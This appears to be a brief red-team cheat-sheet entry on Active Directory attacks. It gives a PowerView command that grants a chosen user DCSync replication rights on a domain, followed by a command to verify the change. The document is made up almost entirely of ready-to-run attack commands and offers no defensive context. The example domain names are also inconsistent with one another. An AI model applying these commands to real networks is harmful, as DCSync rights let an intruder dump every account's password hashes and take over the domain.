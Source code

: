 # Modify Domain Settings

## Allow Your User To Execute DCSync Attack

Allow your user to execute DCSync attack.

```
. C:\AD\Tools\PowerView.ps1
PS C:\Windows\system32> Add-DomainObjectAcl -TargetIdentity 'DC=test,DC=test.corp,DC=local' -PrincipalIdentity test -Rights DCSync -PrincipalDomain test.corp.local -TargetDomain test.local -Verbose
```

Verify using the following command.

```
Get-DomainObjectAcl -SearchBase "DC=test.corp,DC=test.corp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "test"}
```
